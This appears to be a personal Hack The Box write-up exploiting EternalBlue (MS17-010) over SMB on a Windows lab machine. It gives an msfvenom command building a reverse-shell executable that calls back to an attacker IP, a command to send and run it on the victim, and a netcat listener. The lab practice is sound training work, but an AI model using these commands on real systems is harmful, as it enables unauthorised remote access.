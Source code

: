 Tags: #htb, #hacking 
Related to: #practice, #htb, #write-up, #smb, #microsoft-ds, #eternal-blue
See also: 
Index: [[🗂️Index of HTB Writeups]] 

#### Nmap 
Script scan on ports open after full scan
![[Pasted image 20230614214220.png]]

#### Scanned for smb-vulns as it smb is very vulnerable

![[Pasted image 20230627124641.png]]

We can see two RCEs 

https://github.com/helviojunior/MS17-010

Exploit is here.

Create windows tcp reverse shell with msfvenom
 ```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f exe > eternalblue.exe
```

use send and execute.py to send shell to system. `python send_and_execute.py <victim-ip> /path/to/eternalblue.exe    
`
Open a netcat listener for that before that. ``nc -nlvp 4444

Eternal blue gives root access in this sceneario

whoami exe is not available in this machine so use the steps as in this link
https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/legacy-writeup-w-o-metasploit

